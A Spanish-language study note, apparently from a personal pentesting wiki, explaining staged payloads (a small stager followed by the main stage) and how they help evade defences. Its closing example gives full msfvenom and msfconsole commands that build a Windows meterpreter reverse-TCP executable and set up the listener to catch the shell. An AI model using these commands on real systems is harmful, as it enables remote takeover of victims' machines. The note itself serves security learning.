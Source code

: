 Un "[[payload]] staged" (carga útil escalonada) es una técnica comúnmente utilizada en la creación de exploits y herramientas de penetración en el ámbito de la ciberseguridad y la piratería informática. Consiste en dividir la carga útil en varias etapas o componentes, en lugar de enviarla completa en una sola vez. Esto puede ayudar a evadir la detección y las medidas de seguridad implementadas por el sistema objetivo.

La idea principal detrás de un "[[payload]] staged" es dividir el proceso de ataque en múltiples fases. Por lo general, consta de dos etapas principales:

1. **Fase de entrega inicial (stager)**: Esta fase es la primera parte del ataque. Su objetivo es realizar una acción mínima para establecer una conexión inicial entre el atacante y el sistema objetivo, generalmente a través de una vulnerabilidad o un vector de ataque. El stager es típicamente más pequeño y más simple que el [[payload]] principal, lo que lo hace más difícil de detectar.
2. **Fase de ejecución (stage)**: Una vez que se ha establecido la conexión inicial, el stager en el sistema objetivo ejecuta la segunda etapa del ataque, que contiene el [[payload]] principal. Este payload más grande y complejo generalmente lleva a cabo la acción deseada por el atacante, como la explotación de una vulnerabilidad, la ejecución de código malicioso, el robo de información, entre otros.

La ventaja de utilizar un "payload staged" es que puede ayudar a evadir las defensas de seguridad del sistema objetivo, ya que la entrega de la carga útil se divide en múltiples etapas y solo se ejecuta una vez que se ha establecido una conexión inicial. Además, permite a los atacantes adaptar y personalizar su carga útil para diferentes escenarios y condiciones de la red.

Ejemplo de payload staged:

En este caso estamos utilizando [[metasploit]]:

- Con el siguiente comando creamos un archivo ejecutable específicamente para la plataforma Windows:
```msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe```
- Una vez la máquina victima tiene el archivo, ingresamos a msfconsole desde la máquina atacante y aplicamos los siguientes comandos en base al sistema que estemos atacando:
```use exploit/multi/handler```
```set payload windows/x64/meterpreter/reverse_tcp```
```set LHOST 192.168.111.45``` En este caso esta es nuestra IP
```run``` Una vez esté todo configurado ya podemos correr el payload que generamos
